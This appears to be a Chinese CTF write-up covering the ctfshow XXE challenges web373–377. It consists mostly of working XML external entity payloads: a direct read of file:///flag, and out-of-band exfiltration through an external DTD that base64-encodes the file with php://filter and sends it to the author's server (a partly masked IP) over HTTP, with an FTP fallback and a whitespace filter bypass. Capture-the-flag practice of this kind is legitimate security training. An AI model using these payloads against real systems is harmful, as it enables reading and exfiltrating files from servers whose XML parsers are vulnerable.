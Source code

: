 ```yaml
---
title: ctfshow_xxe
tags: 
- XXE
- XML
date: 2021-1-13 20:56:00
categories:
- CTFSHOW
- 安全
- CTF
---
```




## web373

用burp post下面的数据

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
	<!ENTITY xxe SYSTEM "file:///flag">
]>
<root><ctfshow>&xxe;</ctfshow></root>
```

## web374

无回显XXE

可以用python构造一个静态服务器 (这里监听和静态服务是一个端口)

`python3 -m http.server 8000`

payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xxx.xx.xxx.78:8000/test.dtd">%xxe;]>
```

test.dtd文件:

(flag必须base64这样编码才打得通,不知道是不是服务器的问题=.=)

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xxx.xx.xxx.78:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

服务器端数据base64解码即可

![1610082443757](1610082443757.png)

## web375 376

存在过滤,用空格绕过即可

payload:

```xml
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xxx.xx.xxx.78:8000/test.dtd"> %xxe;]>
<root><ctfshow>&xxe;</ctfshow></root>
```

![1610082443757](1610082443757.png)

## web377

禁用了http,可以考虑别的协议,像ftp等

搭建ftp 服务 python -m pyftpdlib -p 8001 (打的时候把安全组关了)

开http服务监听 python3 -m http.server 8000

payload:

```xml-dtd
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "ftp://xxx.xx.xxx.78:8001/test.dtd"> %xxe;]>
<root><ctfshow>&xxe;</ctfshow></root>
```

test.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xxx.xx.xxx.78:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

![1610090109891](1610090109891.png)

